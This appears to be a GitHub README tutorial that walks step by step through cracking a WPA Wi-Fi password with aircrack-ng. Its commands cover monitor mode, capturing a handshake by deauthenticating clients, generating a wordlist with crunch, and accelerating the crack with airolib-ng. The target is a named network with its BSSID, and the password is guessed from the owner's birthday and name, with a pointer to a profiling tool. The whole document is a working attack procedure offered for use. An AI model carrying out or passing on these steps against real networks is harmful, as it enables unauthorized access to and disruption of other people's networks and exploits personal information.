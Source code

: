 # Example crack wpa attack with aircrack-ng

i use tp-link wn725n (chipset rtl8188eus) and parrotOS

connect your card wifi and check

```
iwconfig
```

![image](https://user-images.githubusercontent.com/90561566/168417974-d9650a49-951b-4a6f-ab8b-12e4f7cd7455.png)

```
airmon-ng check kill
airmon-ng start <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418068-964e3312-b269-44fc-9721-398be478f2ce.png)

```
airodump-ng <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418114-4d4e8f16-58ec-4358-bc99-dd625f4e7d26.png)

i will choose target is `Quang Minh 2G`, CH `11`, bssid `5C:1A:6F:88:19:19` to monitor close

```
airodump-ng -c <CH> --bssid <bssid> -w out <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418356-e901847a-143e-4509-85b2-efeb783b1ca1.png)

new terminal

```
aireplay-ng --deauth 0 -a <bssid> <iface>
```

![image](https://user-images.githubusercontent.com/90561566/168418251-fe850fa5-0687-4241-836d-9d287f276e95.png)

wait about 5s, return airodump-ng terminal, if you see WPA handshake is okay and Ctrl+C to stop (both)

![image](https://user-images.githubusercontent.com/90561566/166421288-8ba74de3-f6f9-4973-be3e-d9aafd8fcb11.png)

```
ls
```

![image](https://user-images.githubusercontent.com/90561566/166421374-cfcf7080-c28a-402b-a6cb-9fda3a275a91.png)

create passlist

```
crunch <min> <max> <charset> -t <pattern> -o password.txt
```

because it's going to be a very, very large file, so i'm going to reveal that

the password is 8 numbers (i think it contains in his birthday) and 1 character (i think it contains in his name)

you can also use [Cupp](https://github.com/lucthienphong1120/cupp) to make such inferences

![image](https://user-images.githubusercontent.com/90561566/166604507-5c291bf0-6961-4a15-8c52-cf5faf0b749f.png)

the output file about 11,5 GB and 1,2 billion passwords

---

now you can crack wpa with

```
aircrack-ng -w password.txt out*.cap
```

or redirect directly from crunch

```
crunch <min> <max> <charset> -t <pattern> | aircrack-ng -w- out*.cap
```

![image](https://user-images.githubusercontent.com/90561566/193245022-8c0a5de2-32c6-4b34-bb8d-30dc8ce51521.png)

speed of cracking about 1kp/s at least depend on your hardware processor

---

but i will use database to speed up the attack

it will take more time to set up the database (but it will be much faster than regular crack)

you should only use it if you create a permanent database for crack because it will take a long time (or the passlist is not too long)

install sqlite3 `sudo apt install sqlite3`

create a file `essid.txt` this write name of target wifi

![image](https://user-images.githubusercontent.com/90561566/166434891-81c08ca3-48ff-4579-9a74-fe6e65634b42.png)

```
airolib-ng crackwpa --import passwd password.txt
airolib-ng crackwpa --import essid essid.txt
```

![image](https://user-images.githubusercontent.com/90561566/166435872-44a73959-3784-41c3-849a-5c1aa823dcd4.png)

```
airolib-ng crackwpa --batch
```

![image](https://user-images.githubusercontent.com/90561566/166454564-9b6cd253-74a0-4304-b94e-988a3e92f825.png)


now crack with database, you will be surprised

```
aircrack-ng -r crackwpa out*.cap
```

done! there is the password (crack speed is about 36kp/s)

![image](https://user-images.githubusercontent.com/90561566/166684325-e337e6cd-f376-4172-91a2-617a80a3156c.png)

```
airmon-ng stop <iface>
service NetworkManager restart
```

![image](https://user-images.githubusercontent.com/90561566/168418601-6af69920-10bc-47ea-b5d7-7d5fc0ea3017.png)

